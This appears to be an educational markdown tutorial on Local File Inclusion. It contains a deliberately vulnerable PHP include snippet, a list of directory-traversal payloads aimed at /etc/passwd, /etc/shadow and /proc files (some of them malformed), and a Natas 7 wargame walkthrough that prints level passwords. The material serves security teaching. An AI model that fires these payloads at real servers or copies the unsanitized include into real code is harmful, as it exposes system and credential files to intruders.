


# Local File Inclusion

### OWASP :
#### Local File Inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

### Vulnerable url : http://www.vulnerable_site.com/preview.php?file=example.html 

We can test the vulnerability by changing the file to some other we one that we are interested in.

## Explore it yourself :
 
 Try to explore the vulnerability. Make the following php file, place it in your localhost to do the testing.

```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
Make use of some of the given payloads. The URL looks like


## Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
  ### NATAS 7 :
  - #### USERNAME : natas7
  - #### PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  </br>
  
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
  #### hint: password for webuser natas8 is in /etc/natas_webpass/
  
  
  So, let's try to include that file in the URL 
  #### URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>

</br></br>
## This is a basic example of Local file inclusion vulnerability.


